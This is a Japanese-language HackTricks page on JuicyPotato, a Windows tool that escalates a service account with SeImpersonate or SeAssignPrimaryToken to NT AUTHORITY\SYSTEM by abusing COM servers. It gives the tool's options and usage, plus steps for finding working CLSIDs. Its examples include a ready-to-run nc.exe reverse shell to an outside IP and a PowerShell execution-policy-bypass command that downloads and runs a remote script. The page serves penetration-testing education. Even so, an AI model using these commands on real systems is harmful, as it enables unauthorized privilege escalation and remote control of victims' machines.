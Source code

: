 # JuicyPotato

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotatoは** Windows Server 2019およびWindows 10ビルド1809以降では動作しません。ただし、[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**、**[**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**、**[**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)を使用して、**同じ特権を利用し、`NT AUTHORITY\SYSTEM`**レベルのアクセスを取得できます。_**確認してください：**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (ゴールデン特権の悪用) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_少しのジュースを加えた_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG) _の甘いバージョン、つまり**WindowsサービスアカウントからNT AUTHORITY\SYSTEMへの別のローカル特権昇格ツール**_

#### juicypotatoは[https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)からダウンロードできます

### 概要 <a href="#summary" id="summary"></a>

[**juicy-potatoのReadmeから**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)およびその[バリアント](https://github.com/decoder-it/lonelypotato)は、[`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [サービス](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)に基づく特権昇格チェーンを利用し、`127.0.0.1:6666`でMiTMリスナーを持ち、`SeImpersonate`または`SeAssignPrimaryToken`特権を持っている場合に機能します。Windowsビルドレビュー中に、`BITS`が意図的に無効にされ、ポート`6666`が使用されている設定を見つけました。

私たちは[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)を武器化することに決めました：**Juicy Potatoにこんにちはを言いましょう**。

> 理論については、[Rotten Potato - サービスアカウントからSYSTEMへの特権昇格](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)を参照し、リンクと参考文献のチェーンをたどってください。

私たちは、`BITS`以外にも悪用できるCOMサーバーがいくつかあることを発見しました。それらは次の条件を満たす必要があります：

1. 現在のユーザーによってインスタンス化可能であること、通常は特権を持つ「サービスユーザー」
2. `IMarshal`インターフェースを実装していること
3. 高い権限のユーザー（SYSTEM、Administratorなど）として実行されること

いくつかのテストの後、私たちは複数のWindowsバージョンで[興味深いCLSIDのリスト](http://ohpe.it/juicy-potato/CLSID/)を取得し、テストしました。

### ジューシーな詳細 <a href="#juicy-details" id="juicy-details"></a>

JuicyPotatoを使用すると：

* **ターゲットCLSID** _任意のCLSIDを選択できます。_ [_こちら_](http://ohpe.it/juicy-potato/CLSID/) _でOS別に整理されたリストを見つけることができます。_
* **COMリスニングポート** _好みのCOMリスニングポートを定義します（ハードコーディングされた6666の代わりに）_
* **COMリスニングIPアドレス** _任意のIPにサーバーをバインドします_
* **プロセス作成モード** _偽装されたユーザーの特権に応じて、次のいずれかを選択できます：_
* `CreateProcessWithToken`（`SeImpersonate`が必要）
* `CreateProcessAsUser`（`SeAssignPrimaryToken`が必要）
* `両方`
* **起動するプロセス** _エクスプロイトが成功した場合に実行する実行可能ファイルまたはスクリプト_
* **プロセス引数** _起動するプロセスの引数をカスタマイズします_
* **RPCサーバーアドレス** _ステルスアプローチのために、外部RPCサーバーに認証できます_
* **RPCサーバーポート** _外部サーバーに認証したい場合に便利で、ファイアウォールがポート`135`をブロックしている場合…_
* **テストモード** _主にテスト目的、つまりCLSIDのテスト。DCOMを作成し、トークンのユーザーを表示します。テストについては_ [_こちらを参照_](http://ohpe.it/juicy-potato/Test/)

### 使用法 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 最後の考え <a href="#final-thoughts" id="final-thoughts"></a>

[**juicy-potatoのReadmeから**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

ユーザーが `SeImpersonate` または `SeAssignPrimaryToken` 権限を持っている場合、あなたは **SYSTEM** です。

これらのCOMサーバーの悪用を防ぐことはほぼ不可能です。`DCOMCNFG` を介してこれらのオブジェクトの権限を変更することを考えるかもしれませんが、うまくいくことは難しいでしょう。

実際の解決策は、`* SERVICE` アカウントの下で実行される敏感なアカウントとアプリケーションを保護することです。`DCOM` を停止することは確かにこのエクスプロイトを抑制しますが、基盤となるOSに深刻な影響を与える可能性があります。

出典: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 例

注意: 試すためのCLSIDのリストは[こちらのページ](https://ohpe.it/juicy-potato/CLSID/)を訪れてください。

### nc.exeリバースシェルを取得する
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 新しいCMDを起動する（RDPアクセスがある場合）

![](<../../.gitbook/assets/image (300).png>)

## CLSIDの問題

多くの場合、JuicyPotatoが使用するデフォルトのCLSIDは**機能しない**ため、エクスプロイトが失敗します。通常、**動作するCLSID**を見つけるには複数の試行が必要です。特定のオペレーティングシステムで試すためのCLSIDのリストを取得するには、このページを訪問してください：

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDの確認**

まず、juicypotato.exe以外のいくつかの実行可能ファイルが必要です。

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)をダウンロードしてPSセッションに読み込み、[GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)をダウンロードして実行します。そのスクリプトはテストする可能性のあるCLSIDのリストを作成します。

次に[test_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat)をダウンロードし（CLSIDリストとjuicypotato実行可能ファイルへのパスを変更）、実行します。すべてのCLSIDを試し始め、**ポート番号が変更されると、それはCLSIDが機能したことを意味します**。

**-cパラメータを使用して**動作するCLSIDを**確認してください**

## 参考文献

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
